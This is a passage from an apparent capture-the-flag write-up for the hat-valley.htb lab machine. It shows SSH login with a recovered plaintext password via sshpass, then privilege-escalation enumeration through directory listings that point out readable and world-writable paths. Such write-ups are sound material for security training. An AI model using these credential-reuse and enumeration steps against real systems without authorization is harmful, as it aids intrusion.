     as written in the note (**MAKE SURE TO USE THIS EVERYWHERE**) I could try if I can also login with SSH:<br>
    `sshpass -p '014mrbeanrules!#P' ssh bean@10.10.11.185`

    bingo!

<br><br>

## Privesc bean

- here's why the previous reading of the files in the `bean` home worked:
    - `ls -al /home/`
        ```
        drwxr-xr-x 17 bean      bean      4096 Oct  6 01:35 bean
        drwxr-x---  2 christine christine 4096 Sep 15 21:39 christine
        ```

    - `ls -al /home/bean/`
        ```
        lrwxrwxrwx  1 bean bean    9 Sep 15 21:40 .bash_history -> /dev/null
        -rw-r--r--  1 bean bean  220 Sep 15 21:34 .bash_logout
        -rw-r--r--  1 bean bean 3847 Sep 15 21:45 .bashrc
        drwx------  9 bean bean 4096 Sep 22 14:30 .cache
        drwx------ 13 bean bean 4096 Oct  6 01:35 .config
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Desktop
        drwxr-xr-x  3 bean bean 4096 Sep 15 21:46 Documents
        drwxr-xr-x  2 bean bean 4096 Sep 15 23:03 Downloads
        drwx------  3 bean bean 4096 Dec 15 00:24 .gnupg
        drwx------  3 bean bean 4096 Sep 15 21:35 .local
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Music
        drwxrwxr-x  4 bean bean 4096 Oct  6 01:35 .npm
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Pictures
        -rw-r--r--  1 bean bean  807 Sep 15 21:34 .profile
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Public
        drwx------  4 bean bean 4096 Sep 15 21:55 snap
        drwx------  2 bean bean 4096 Sep 15 21:36 .ssh
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Templates
        -rw-r-----  1 root bean   33 Dec 14 22:10 user.txt
        drwxr-xr-x  2 bean bean 4096 Sep 15 21:35 Videos
        ```
    
    there were no clues unfortunately, in fact it was quite a tedious part guessing the readable files

- `ls -al /var/www/`
    ```
    drwxr-xr-x  6 root      root     4096 Oct  6 01:35 hat-valley.htb
    drwxr-xr-x  2 root      root     4096 Oct  6 01:35 html
    drw-rwx---  5 root      www-data 4096 Dec 14 22:10 .pm2
    dr-xr-x---  2 christine www-data 4096 Oct  6 01:35 private
    drwxr-xr-x  9 root      root     4096 Oct  6 01:35 store
    ```

    I can see the files inside the store (others):
    ```
    drwxr-xr-x 9 root root  4096 Oct  6 01:35 .
    drwxr-xr-x 7 root root  4096 Oct  6 01:35 ..
    drwxrwxrwx 2 root root  4096 Dec 15 02:04 cart
    -rwxr-xr-x 1 root root  3664 Sep 15 20:09 cart_actions.php
    -rwxr-xr-x 1 root root 12140 Sep 15 20:09 cart.php
    -rwxr-xr-x 1 root root  9143 Sep 15 20:09 checkout.php
    drwxr-xr-x 2 root root  4096 Oct  6 01:35 css
    drwxr-xr-x 2 root root  4096 Oct  6 01:35 fonts
    drwxr-xr-x 6 root root  4096 Oct  6 01:35 img
    -rwxr-xr-x 1 root root 14770 Sep 15 20:09 index.php
    drwxr-xr-x 3 root root  4096 Oct  6 01:35 js
    drwxrwxrwx 2 root root  4096 Dec 15 02:00 product-details